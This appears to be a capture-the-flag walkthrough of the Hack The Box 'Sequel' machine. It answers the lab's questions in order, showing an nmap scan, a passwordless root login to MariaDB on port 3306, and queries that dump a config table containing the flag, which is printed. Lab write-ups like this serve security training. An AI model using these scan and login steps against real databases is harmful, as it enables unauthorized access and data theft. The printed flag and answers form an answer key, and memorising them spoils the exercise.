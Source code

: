 ```yaml
---
title: Máquina Sequel
published: true
---
```


Jorge Marco Arráez

## [](#header-3) 1)  What does the acronym SQL stand for? 

Structured Query Language

## [](#header-3) 2)   During our scan, which port running mysql do we find?
```
nmap -A -sCV -vv -T4 -n -oN nmap/ports $IP
```

3306

## [](#header-3) 3)  What community-developed MySQL version is the target running? 

MariaDB

## [](#header-3) 4)  What switch do we need to use in order to specify a login username for the MySQL service?
```
-u
```

## [](#header-3) 5)  Which username allows us to log into MariaDB without providing a password? 

root

## [](#header-3) 6)  What symbol can we use to specify within the query that we want to display eveything inside a table?

'*'

## [](#header-3) 7)   What symbol do we need to end each query with?  

';'

## [](#header-3) 8)  Submit root flag 
```
mysql --host $IP -P 3306 -u root
SHOW DATABASES;
use htb;
SHOW TABLES;
SHOW FIELDS FROM config;
SELECT * from config;
```

| id           | name                    | value        |
|:-------------|:------------------------|:-------------|
| 1            | timeout                 | 60s          |
| 2            | security                | default      |
| 3            | auto_logon              | false        |
| 4            | max_size                | 2M           |
| 5            | flag                    | 7b4bec00d1a39e3dd4e021ec3d915da8 |
| 6            | enable_uploads          | false        |
| 7            | authentication_methods  | radius       |
 
```
flag=7b4bec00d1a39e3dd4e021ec3d915da8
```
